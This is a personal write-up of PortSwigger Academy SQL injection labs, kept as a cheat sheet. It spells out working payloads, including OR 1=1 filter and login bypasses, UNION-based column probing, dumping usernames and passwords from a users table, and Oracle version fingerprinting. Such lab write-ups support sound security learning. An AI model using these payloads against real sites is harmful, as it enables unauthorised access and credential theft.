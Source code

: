 ```yaml
---
layout: post
title: Portswigger Academy - SQL Injection
date: 2023-06-06 15:43:18 +0200
categories: [Portswigger Academy, SQL Injection]
tags: [SQL Injection, Write-up, Cheat Sheet]
img_path: /assets/img/labs/portswigger/sql-injection/
image:
  path: sql-injection.png
---
```


## Info

This is my write-up for the *SQL Injection* learning path at the Portswigger Academy.\
The reason for this write-up is to have a cheat-sheet or some go-to notes for myself.\
Probably I've found flags in a different way than intended (with or without the use of BurpSuite), and not always in the order of the hints.

[Portswigger Academy - SQL Injection](https://portswigger.net/web-security/sql-injection)

## LAB : SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This is an easy one. Just navigate to a category, and SQL Inject the GET query.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' OR 1=1--`

## LAB : SQL injection vulnerability allowing lobin bypass

This one can be done by passing a SQL Injection in the *password* field of the login form.

- Username: `administrator`
- Password: `' or 1=1--`

## LAB : SQL injection UNION attack, determining the number of columns returned by the query

This can also be done by injecting the SQL injection straight into the GET query of the URL.

First we need to check how many columns the original query returns, and match those.\
Start off with one *NULL* and keep adding until you don't get an error anymore.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL,NULL--`

Now we know we need to return 3 columns in our injection, we need to find a column that can contain a string.\
Again, start with trying the first column, and move further untill you don't get an error anymore.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,'abc',NULL--`


## LAB : SQL injection UNION attack, retrieving data from other tables

Building on the previous lab. First check how many columns we need to return:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL--`

Check which columns can contain strings (and where you see the 1st column, and where the 2nd):\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT 'abc','xyz'--`

Now we can print all usernames with their passwords as a new item:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT username,password FROM users--`

## LAB : SQL injection attack, querying the database type and version on Oracle

Trying what we did in the previous 2 labs doesn't work here. No matter how many *NULL*s we add, we keep getting errors:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL,NULL--`

That's because in this case there's no MS-SQL as backend. But an Oracle database (as suggested in the title of the lab)\
For Oracle DB's we have to do the following:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL FROM dual--`

Now that this doens't return an error, we can actually check which database type we are dealing with:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,banner FROM v$version--`



